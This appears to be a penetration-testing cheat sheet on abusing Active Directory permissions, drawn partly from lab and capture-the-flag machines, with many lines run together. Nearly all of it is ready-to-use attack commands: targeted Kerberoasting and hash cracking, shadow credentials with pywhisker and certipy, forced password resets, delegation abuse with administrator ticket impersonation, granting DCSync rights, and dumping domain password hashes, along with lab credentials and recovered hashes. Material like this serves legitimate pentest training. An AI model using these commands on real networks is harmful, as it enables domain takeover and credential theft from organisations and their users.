


GenericWrite
Update object’s attributes
Targeted Kerberoasting
python targetedKerberoast.py -v -d <domain> -u <username> -p <password>- then crack the hash using hashcat/john
hashcat -m 13100 -a 0 <hash_file> rockyou.txt --forceDemo Time
Shadow Credentials Attack in Action
there are 2 ways to exploit Shadow Credentials Attack
- Pywhisker
- Certipy
https://github.com/ShutdownRepo/pywhisker.git
https://github.com/dirkjanm/PKINITtools
Pywhisker
pywhisker -d 'certified.htb' -u 'judith.mader' -p 'judith09' --target 'management_svc' --action 'add'python3.13 ./PKINITtools/gettgtpkinit.py --verbose -cert-pfx VXDScQU4.pfx -pfx-pass 'T5DKsQYXMBD1btXlkv2j' -dc-ip 10.129.231.186 certified.htb/management_svc mgnt_svc.ccachepython3.13 ./PKINITtools/getnthash.py -key b4218829273b99073fb46837df219b359ed34d0e6479d5208d1f0434f2d53bbf certified.htb/management_svc# NT hash of management_svc
[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584now we learnt the Pywhisker way , now lets dive in the certipy way of doing ShadowCredentials Attack
Certipy Way - Shadow Credentials Attack
certipy shadow auto -username judith.mader@certified.htb -p judith09 -account management_svc- or using Kerberos
certipy shadow auto -username username@domain -p <password> -k -account <target_username> -target <dc>GenericALL
Full rights to the object (add users to a group or reset user’s password)
Password Change
net rpc password <username> <new_password> -U <domain>/<username>%<hash> -S <dc> --pw-nt-hashAdd user to a group
net rpc group addmem <target_group> <username> -U <domain>/<username> -S <dc>RBCD
rbcd.py -delegate-from '<machine_name>' -delegate-to '<target>' -dc-ip <ip> -action 'write' '<domain>/<username>:<password>'
getST.py -spn 'cifs/<dc>' -impersonate administrator -dc-ip <ip> '<domain>/<machine_name>:<password>'
export KRB5CCNAME=administrator.ccache
secretsdump.py -kForceChangePassword
Ability to change user’s password
# Method 1
net rpc password <TargetUser> <new_password> -U "DOMAIN"/"ControlledUser"%"Password" -S <DomainController>
# Method 2
bloodyAD --host <ip> -d <dc> -u <username> -p <password> set password <target_userename> <new_password>
# Method 3
python rpcchangepwd.py <domain>/<username>:<password>@<ip> -newpass <new_password>AddMember
net rpc group addmem <target_group> <username> -U <domain>/<username> -S <dc>WriteOwner
Change object owner to attacker controlled user take over the object
bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan
bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 add genericAll ca_svc ryan
# or
dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
# Optional
bloodyAD.py -d <domain> -u <username> -p <password> --host <dc> add groupMember <target_group> <username>
# Must Do at end
certipy shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 10.129.89.239 -ns 10.129.89.239 -target dc01.sequel.htb -account ca_svcWriteDacl
# Read Access
dacledit.py -action 'read' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'
# Full Control Access
dacledit.py -action 'write' -rights 'FullControl' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'- Ok now we can :
- change tyron password
- do a target kerberoasting
- do a shadow credentials
- Let’s just use shadowcredentials :
certipy shadow auto -u joffrey.baratheon@sevenkingdoms.local -p '1killerlion' -account 'tyron.lannister'
AddKeyCredentialLink
# With username & password
python3 pywhisker.py -d <domain> --dc-ip <ip> -u <username> -p <password> --target <target_username> --action "add"
# With Hashes
python3 pywhisker.py -d <domain> --dc-ip <ip> -u <username> -H :<hashes> --target <target_username> --action "add"certipy shadow auto -username <username>@<domain> -hashes :<hashes> -account <target_username>ReadLAPSPassword
nxc smb <target> -u <username> -p <password> --lapsReadGMSAPassword
nxc ldap <target> -u <username> -p <password> --gmsaAllExtendedRights
it is basically DCSync rights

Add DCSync Rights by using :
dacledit.py megacorp.local/snovvcrash:'Passw0rd!' -action write -rights DCSync -principal snovvcrash -target-dn 'DC=megacorp,DC=local' -dc-ip 192.168.1.11secretsdump.py <dc> -k
nxc smb <domain> -u <username> -p <password> --ntds
nxc smb <domain> -k --use-kcache --ntdsResources
- https://www.thehacker.recipes/ad/movement/dacl/
- https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse
- https://mayfly277.github.io/posts/GOADv2-pwning-part11/
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces
Interesting Tool for Enumeration of ACLs
https://github.com/garrettfoster13/aced
A Good talk on Finding AD Attack Paths using BOFHound
https://www.youtube.com/watch?v=Xxm4YktSKVY
Slides:
Automated ACL Exploitation Tool